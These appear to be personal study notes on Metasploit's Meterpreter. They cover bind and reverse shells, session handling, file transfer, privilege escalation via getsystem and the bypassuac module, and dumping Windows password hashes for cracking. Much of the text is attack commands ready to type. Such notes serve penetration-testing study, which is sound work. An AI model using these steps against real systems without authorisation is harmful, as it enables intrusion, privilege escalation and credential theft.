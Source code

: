 ### General Notes

A very powerful shell that can be used to attack machines and install [[Backdoors]].

---
### Usage inside [[Metasploit]] `msfconsole`

- **Bind TCP**: runs a server process on the target and waits for connection from attacker. `bind_tcp`
- **Reverse TCP**: performs a TCP connection back to the attacker machine. Helps evade [[Firewall]]s. `reverse_tcp`

---
### Sessions

After setting the right payload, run the *exploit* to get a session.
- A `meterpreter session` is an advanced shell on a target machine.

> Multiple sessions can be hosted in one `msfconsole` host.

- To go back to the `msfconsole` from the meterpreter session:
```
background
```

- To list all the available sessions
```
sessions -l
```

- To resume a session
```
sessions -i <session-id>
```

---
### Exploitation

- Can perform multiple commands in the meterpreter session to get information about the target machine.
```
ifconfig
route
sysinfo
getuid
shell   //to run the standard os shell on the attacked machine.
...
```

- Can upload and download files
```
download <path-to-file-in-attacked> <destination-path-attacker>
upload <destination-path-attacker> <path-to-file-in-attacked>
```

> For window use `\` and Linux use `/`.

---
### Privilege Escalation

- To raise privileges using a Privilege Escalation routine provided by meterpreter.
```
getsystem
```
> *system* user is the highest privileges in windows machines.

However, the User Account Control (UAC) policy prevents this from happening in modern windows machines.
- To do that, use the `bypassuac` exploit module in [[Metasploit]]. 
```
background  //background the current session.
use exploit/windows/local/bypassuac   //get the bypassuac exploit for windows
show options 
set session <meterpreter session>
```
> This opens a new meterpreter shell session that can use the `getsystem` command.

---
### Dumping Password Database

Saving the password database and cracking it using [[John the Ripper]] for instance.
- Do that using the `hashdump` post-exploit module in [[Metasploit]].
```
background
use post/windows/gather/hashdump
show options
set session <meterpreter session>
exploit // dumps the hashes.
```

---
### Extra Commands

- Shells can be upgraded to meterpreter shells using the `mult/manage/shell_to_meterpreter` module.

- `/tmp` and `/var/tmp` are writeable.

---
